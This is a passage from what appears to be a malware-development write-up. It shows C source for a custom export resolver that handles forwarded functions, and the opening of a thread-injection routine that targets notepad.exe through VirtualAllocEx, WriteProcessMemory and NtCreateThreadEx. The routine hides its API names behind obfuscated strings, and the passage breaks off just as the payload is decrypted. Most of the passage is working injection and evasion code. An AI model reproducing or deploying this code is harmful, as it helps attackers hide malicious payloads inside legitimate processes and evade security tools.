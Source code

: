 ```c
		}
	}

	// check if found VA is forwarded to external library.function
	if ((char *) pProcAddr >= (char *) pExportDirAddr && 
		(char *) pProcAddr < (char *) (pExportDirAddr + pExportDataDir->Size)) {
		
		char * sFwdDLL = _strdup((char *) pProcAddr); 	// get a copy of library.function string
		if (!sFwdDLL) return NULL;

		// get external function name
		char * sFwdFunction = strchr(sFwdDLL, '.');
		*sFwdFunction = 0;					// set trailing null byte for external library name -> library\x0function
		sFwdFunction++;						// shift a pointer to the beginning of function name

		// resolve LoadLibrary function pointer, keep it as global variable
		if (pLoadLibraryA == NULL) {
			pLoadLibraryA = (LoadLibrary_t) hlpGetProcAddress(hlpGetModuleHandle(L"KERNEL32.DLL"), "LoadLibraryA");
			if (pLoadLibraryA == NULL) return NULL;
		}

		// load the external library
		HMODULE hFwd = pLoadLibraryA(sFwdDLL);
		free(sFwdDLL);							// release the allocated memory for lib.func string copy
		if (!hFwd) return NULL;

		// get the address of function the original call is forwarded to
		pProcAddr = hlpGetProcAddress(hFwd, sFwdFunction);
	}

	return (FARPROC) pProcAddr;
}
```

That's how we retrieve the addresses of the most exported functions in `vcload.cpp`.

After that, we look for the `notepad.exe` process and try to inject into it, by performing **Thread Context Injection**. The APIs used in this injection are: `VirtualAllocEx`, `WriteProcessMemory`, `NtCreateThreadEx`, `WaitForSingleObjectEx` and `CloseHandle`.

The code of `tcInject` function is shown below:

```c
// thread context injection
int tcInject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

	LPVOID pRemoteCode = NULL;
	HANDLE hThread = NULL;
	CLIENT_ID cid;

	VirtualAllocEx_t pVirtualAllocEx = (VirtualAllocEx_t) hlpGetProcAddress(hlpGetModuleHandle(obfKernel), (char *) sVirtualAllocEx);
	WriteProcessMemory_t pWriteProcessMemory = (WriteProcessMemory_t) hlpGetProcAddress(hlpGetModuleHandle(obfKernel), (char *) sWriteProcessMemory);
	NtCreateThreadEx_t pNtCreateThreadEx = (NtCreateThreadEx_t) hlpGetProcAddress(hlpGetModuleHandle(obfNtdll), (char *) sNtCreateThreadEx);
	WaitForSingleObjectEx_t pWaitForSingleObjectEx = (WaitForSingleObjectEx_t) hlpGetProcAddress(hlpGetModuleHandle(obfKernel), (char *) sWaitForSingleObjectEx);
	CloseHandle_t pCloseHandle = (CloseHandle_t) hlpGetProcAddress(hlpGetModuleHandle(obfKernel), (char *) sCloseHandle);

	// Decrypt payload
```